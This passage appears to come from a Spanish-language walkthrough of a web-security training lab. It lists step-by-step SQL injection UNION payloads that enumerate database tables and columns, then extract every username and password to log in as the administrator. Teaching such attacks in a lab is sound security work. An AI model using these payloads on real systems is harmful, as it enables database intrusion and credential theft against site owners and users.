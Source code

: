     `'+UNION+SELECT+'abc','def'--`
3. Utilice la siguiente carga útil para recuperar la lista de tablas en la base de datos:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Busque el nombre de la tabla que contiene las credenciales de usuario.
5. Utilice la siguiente carga útil (que reemplaza el nombre de la tabla) para recuperar los detalles de las columnas de la tabla:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Busque los nombres de las columnas que contienen nombres de usuario y contraseñas.
7. Utilice la siguiente carga útil (que reemplaza los nombres de tablas y columnas) para recuperar los nombres de usuario y contraseñas de todos los usuarios:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Busque la contraseña del `administrator`usuario y úsela para iniciar sesión.

